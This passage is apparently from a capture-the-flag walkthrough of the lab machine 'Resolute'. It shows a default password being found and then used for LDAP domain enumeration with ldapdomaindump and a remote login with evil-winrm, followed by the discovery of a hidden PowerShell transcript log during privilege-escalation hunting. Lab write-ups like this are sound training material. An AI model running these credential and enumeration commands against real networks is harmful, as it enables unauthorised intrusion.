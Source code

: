 ```bash
[*] Auxiliary module execution completed
```

We get a hit! The user Melanie is using the default password.

We can now use ldapdomaindump as an authenticated user to learn more about the system. 

```bash
❯ ldapdomaindump -u megabank\melanie 10.10.10.169
Password: 
[] Connecting to host...
[] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

This outputs a number of files, the USER file gives us more info about the users and which groups they are members of.
Melanie is in the Remote Management Users group, which means we should be able to use evil-winrm to login as Melanie. Also of interest is the user ryan who is a member of the Contractors group, which is in turn a member of DnsAdmins and Remote Management Users.

Lets login as Melanie.

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

Navigate to C:\Users\Melanie\Desktop\user.txt for the user flag.

### PrivEsc

I tried running winPEAS but this didn't return anything useful.
After looking around the filesystem I eventually found a hidden directory C:\PSTranscripts
To see hidden files in Powershell use:

```bash
Get-ChildItem -Force
```

In this directory there is a log file:

```
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
if (!$?) { if($LASTEXITCODE) { exit $LASTEXITCODE } else { exit 1 } }"
>> CommandInvocation(Out-String): "Out-String"
```